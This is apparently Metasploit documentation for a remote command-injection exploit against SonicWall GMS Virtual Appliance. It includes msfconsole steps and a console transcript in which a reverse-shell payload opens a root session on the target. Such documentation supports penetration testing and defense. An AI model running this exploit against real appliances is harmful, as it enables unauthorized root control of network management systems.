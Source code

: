 ## Vulnerable Application

sonicwall_xmlrpc_rce is a remote exploit against SonicWall Global Management
System Virtual Appliance and is written by Michael Flanders of Trend
Micro Zero Day Initiative with assistance by @kernelsmith of Trend Micro Zero
Day Initiative. It is considered a reliable exploit, and allows you to remotely
execute commands as root.

* This exploit works against a vulnerable SonicWall Global Management System
Virtual Appliance (A.K.A. Sonicwall GMSVP) of versions 8.1 (Build 8110.1197) and
earlier. The virtual appliance can be downloaded here:
  * http://www.sonicwall.com/products/sonicwall-gms/

* This module exploits the virtual appliance's lack of checking on user-supplied
parameters to XML-RPC calls to a vulnerable Java service running on port 21009.
A call to a shell script is made using this user-supplied parameter contained in
backticks allowing command substitution and remote code execution.

* To reliably determine whether the target virtual appliance is vulnerable,
you will have to examine the web console's login page. This is also automatically
done in the check function of the exploit.

## Verification Steps

- [x] Start `msfconsole`
- [x] `use exploit/unix/sonicwall/sonicwall_xmlrpc_rce`
- [x] `set RHOST` to the IP address of the vulnerable virtual appliance
- [x] `set RPORT` to 21009
- [x] `set payload` to the desired payload
- [x] set any additional options for the payload e.g. LHOST/LPORT
- [x] `exploit`
- [x] **Verify** that you get a shell
- [x] **Verify** that you do not crash

## Options

```
set SSL [true/false]
```

* Set this true/false depending on whether the instance of SonicWall GMSVP has
been configured to use SSL.


```
set WEB_SERVER_PORT [port]
```

* This is the port of the login page for the web server/virtual appliance. For
SonicWall GMVSP this is typically http://[ip]:80; therefore, this option is set
by default to 80 (or 443 if `set SSL true`).

## Scenarios

* This is example output from a normal usage/scenario. This console output is for
SonicWall GMSVP version 8.0 (Build 8046.1396):

```
msf > use exploit/unix/sonicwall/sonicwall_xmlrpc_rce
msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > show options

Module options (exploit/unix/sonicwall/sonicwall_xmlrpc_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                             yes       The target address
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                             no        HTTP server virtual host
   WEB_SERVER_PORT                   no        Port of web console login page.
                                             Defaults to 80/443 depending on SSL.


Exploit target:

   Id  Name
   --  ----
   0   SonicWall Global Management System Virtual Appliance


msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RPORT 21009
RPORT => 21009

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RHOST 192.168.152.173
RHOST => 192.168.152.173

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set LHOST 192.168.152.193
LHOST => 192.168.152.193

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > exploit

[*] Started reverse TCP double handler on 192.168.152.193:4444
[*] The target appears to be vulnerable, continuing exploit...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo H7sn3KYXeuCZy27Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "H7sn3KYXeuCZy27Q\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.152.193:4444 -> 192.168.152.173:44698) at 2018-07-05 12:30:56 -0400
```

